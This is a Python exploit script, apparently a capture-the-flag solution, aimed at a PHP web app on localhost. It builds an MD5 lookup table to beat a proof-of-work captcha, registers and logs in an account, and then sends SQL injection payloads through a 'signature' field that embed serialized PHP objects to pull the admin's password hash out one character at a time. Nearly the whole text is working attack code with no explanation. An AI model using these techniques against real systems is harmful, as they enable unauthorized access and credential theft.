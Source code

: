 ```python
#coding=utf-8
import re
import string
import random
import requests
import subprocess
import hashlib
from itertools import product

_target='http://127.0.0.1:11027/index.php?action='

def get_code_dict():
    c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
    captchas = [''.join(i) for i in product(c, repeat=3)]

    print('[+] Genering {} captchas...'.format(len(captchas)))
    with open('captchas.txt', 'w') as f:
        for k in captchas:
            f.write(hashlib.md5(k.encode('utf-8')).hexdigest()+' --> '+k+'\n')

def get_creds():
    username = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    password = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    return username, password

def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def register(username, password):
    resp = sess.get(_target+'register')
    code = solve_code(resp.text)
    sess.post(_target+'register', data={'username':username,'password':password,'code':code})
    return True

def login(username, password):
    resp = sess.get(_target+'login')
    code = solve_code(resp.text)
    sess.post(_target+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_target+'publish', data={'signature':sig,'mood':mood})

get_code_dict()

sess = requests.Session()
username, password = get_creds()
print('[+] register({}, {})'.format(username, password))
register(username, password)
print('[+] login({}, {})'.format(username, password))
login(username, password)
print('[+] user session => ' + sess.cookies.get_dict()['PHPSESSID'])

for i in range(1,33): # we know password is 32 chars (md5)
    mood = '(select concat(`O:4:\"Mood\":3:{{s:4:\"mood\";i:`,ord(substr(password,{},1)),`;s:2:\"ip\";s:14:\"80.212.199.161\";s:4:\"date\";i:1520664478;}}`) from ctf_users where is_admin=1 limit 1)'.format(i)
    payload = 'a`, {}); -- -'.format(mood)
    resp = publish(payload, '0')

```